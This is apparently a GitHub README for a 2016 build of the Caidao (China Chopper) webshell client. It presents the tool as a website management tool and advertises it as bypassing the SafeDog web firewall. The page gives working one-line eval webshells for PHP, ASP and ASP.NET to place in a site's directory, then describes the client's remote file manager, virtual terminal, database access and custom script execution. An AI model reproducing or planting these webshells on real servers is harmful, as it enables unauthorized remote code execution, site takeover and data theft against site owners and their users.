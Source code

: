 # caidao_newest
2016.6.20 菜刀 过狗 无后门版

解压密码：www.maicaidao.com


菜刀 / Caidao @ http://www.maicaidao.com/
-------------------------------------------
     菜刀，他是一款专业的网站管理工具
-------------------------------------------

一、网站管理模块
----------------

    放在网站上的脚本程序分两种：

　　1）“一句话(Eval)”：
	PHP, ASP, ASP.NET 的网站都可以，支持https。下面的代码放在网站目录即可开始管理，比FTP好用多了是不是：
　　	PHP:    <?php @eval($_POST['caidao']);?>
　　	ASP:    <%eval request("caidao")%>
　　	ASP.NET:    <%@ Page Language="Jscript"%><%eval(Request.Item["caidao"],"unsafe");%>

    2）自己开发的脚本程序(Customize)：

	理论上支持所有动态脚本,只要正确与菜刀进行交互即可。调用方法请参阅后面的 “Customize模式菜刀和服务端通信接口”。


    ---------------------------------------------------------------------------------------------------------

	
　　常用功能介绍

　　	1. 文件管理：[特色]缓存下载目录，并支持离线查看缓存目录;

　　	2. 虚拟终端：[特色]人性化的设计，操作方便;(输入HELP查看更多用法), 超长命令会分割为5k字节一份，分别提交。

　　	3. 数据库管理：[特色]图形界面,支持MYSQL,MSSQL,ORACLE,INFOMIX,POSTGRESQL,ACCESS, 以及支持ADO方式连接的数据库。

   	4. 自写脚本（只有Eval端才支持）：

		通过简单编码后提交用户自己的脚本到服务端执行，实现丰富的功能，也可选择发送到浏览器执行。

		如果要写自己的CCC脚本，可以参考一下CCC目录下的示例代码, 相信你也可以写出功能丰富的脚本。

		可以在官网下载别人的CCC脚本，或分享你的得意之作。


　　配置框填写说明

	----------------
	A)  数据库相关：
	----------------
	PHP：
	<T>类型</T> 类型可为MYSQL,MSSQL,ORACLE,INFOMIX,POSTGRESQL中的一种
	<H>主机地址<H> 主机地址可为机器名或IP地址，如localhost
	<U>数据库用户</U> 连接数据库的用户名，如root
	<P>数据库密码</P> 连接数据库的密码，如123455
	<N>默认库</N> 默认连接的库名
